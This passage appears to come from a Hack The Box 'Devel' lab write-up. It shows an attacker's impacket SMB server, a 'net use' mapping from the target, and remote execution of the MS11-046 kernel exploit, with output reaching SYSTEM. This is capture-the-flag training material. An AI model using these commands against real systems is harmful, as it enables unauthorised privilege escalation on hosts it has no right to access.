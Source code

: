 I think its cause of the shell isn't really stabilize thats why it doesn't want to pop a new shell

Trying it on the msf session also doesn't seems to work

Anyways it can be run remotely through an smb server 

So all i need is to create one then call the binary remotely 

On the attacker machine
```
┌──(mark㉿haxor)-[~/Desktop/B2B/HTB/Devel]
└─$ impacket-smbserver -smb2support share . -user admin -password admin 
Impacket v0.10.1.dev1+20220720.103933.3c6713e - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

On the target

```
PS C:\windows\temp\haxor> net use \\10.10.16.7\share /USER:admin admin
The command completed successfully.

PS C:\windows\temp\haxor> 
```

Now we can call the binary remotely 

```
PS C:\windows\temp\haxor> //10.10.16.7/share/MS11-046.exe 

c:\Windows\System32>[*] MS11-046 (CVE-2011-1249) x86 exploit
   [*] by Tomislav Paskalev
[*] Identifying OS
   [+] 32-bit
   [+] Windows 7
[*] Locating required OS components
   [+] ntkrnlpa.exe
      [*] Address:      0x82846000
      [*] Offset:       0x008b0000
      [+] HalDispatchTable
         [*] Offset:    0x009d93b8
   [+] NtQueryIntervalProfile
      [*] Address:      0x77b65510
   [+] ZwDeviceIoControlFile
      [*] Address:      0x77b64ca0
[*] Setting up exploitation prerequisite
   [*] Initialising Winsock DLL
      [+] Done
      [*] Creating socket
         [+] Done
         [*] Connecting to closed port
            [+] Done
[*] Creating token stealing shellcode
   [*] Shellcode assembled
   [*] Allocating memory
      [+] Address:      0x02070000
      [*] Shellcode copied
[*] Exploiting vulnerability
   [*] Sending AFD socket connect request
      [+] Done
      [*] Elevating privileges to SYSTEM
         [+] Done
```